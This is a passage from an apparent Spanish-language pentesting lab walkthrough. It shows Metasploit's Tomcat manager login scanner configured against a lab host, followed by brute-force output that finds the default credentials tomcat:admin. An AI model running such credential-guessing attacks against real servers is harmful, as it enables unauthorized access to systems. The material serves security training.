 ```
   RHOSTS            10.129.201.58                                                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             8180                                                                            yes       The target port (TCP)
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   true                                                                            yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                                          no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST             web01.inlanefreight.local                                                       no        HTTP server virtual host

```

Golpeamos`run`y obtener un éxito para el par de credenciales`tomcat:admin`.

Atacando a Tomcat

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin
```